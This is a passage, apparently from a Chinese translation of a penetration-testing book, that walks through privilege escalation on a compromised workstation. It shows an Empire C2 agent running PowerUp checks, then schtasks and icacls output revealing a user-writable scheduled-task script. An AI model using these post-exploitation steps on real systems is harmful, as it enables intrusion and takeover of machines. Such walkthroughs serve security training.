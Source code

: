 尽管 John 是 IT 经理，但他的工作站上没有管理员权限。没事儿，这样才更有挑战！

接下来，我们有多种思路：找漏洞、找误配置服务，文件或注册表项中的密码等。

在撰写本书时，**MS016-32** \[71\]漏洞的利用非常火。触发代码是用PowerShell编写的，非常适合我们当前的情况。拥有公开漏洞利用程序是很爽，但我们不可能总有这么好的运气。所以，需要寻找一种更为通用的方法。

我们运行**PowerUp**模块，该模块在 Windows 上执行常规检查，识别出计算机上提权的可行路径：

```text
(Empire: john) > usemodule privesc/powerup/allchecks 
(Empire: privesc/powerup/allchecks) > run
(Empire: privesc/powerup/allchecks) >
Job started: Debug32_m71k0

[*] Running Invoke-AllChecks
[*] Checking if user is in a local group with administrative privileges...
[*] Checking service permissions...
[*] Use 'Write-ServiceEXE -ServiceName SVC' or 'Write-ServiceEXECMD' to abuse any binaries 
[*] Checking for unattended install files...
[*] Checking for encrypted web.config strings... 
[…]
```

没有错误配置的服务，也没有可被劫持的DLL或纯文本密码。让我们看一下计划任务列表：

```text
(Empire: john) > shell schtasks /query /fo LIST /v 
(Empire: john) >
    Folder: \
    HostName:    FRPC073
    TaskName:    \Chance screensaver
    Next Run Time:        N/A 
    Status:    Ready
    Logon Mode:        Interactive/Background 
    Last Run Time:        1/15/2017 1:58:22 PM 
    Author:        SPH\adm_supreme
    Task To Run:    C:\Apps\screensaver\launcher.bat 
    Comment:    Change screensaver 
    Scheduled Task State:        Enabled
    Run As User:    Users
    Schedule Type:    At logon time
```

有点意思，管理员设置了定时任务，在用户每次登陆时更新屏幕保护程序。这是一个简单的“launcher.bat”脚本，位于“c: apps\screensaver\”目录。让我们看看该文件夹的访问权限列表：

```text
(Empire: john) > shell icacls c:\apps\screensaver 
(Empire: john) >
c:\apps\screensaver BUILTIN\Administrators:(F) 
    CREATOR OWNER:(OI)(CI)(IO)(F) 
    BUILTIN\Users:(OI)(CI)(F) 
    BUILTIN\Users:(I)(CI)(WD) 
    CREATOR OWNER:(I)(OI)(CI)(IO)(F)
    NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
    BUILTIN\Administrators:(I)(OI)(CI)(F) 
Successfully processed 1 files; Failed processing 0 files
```
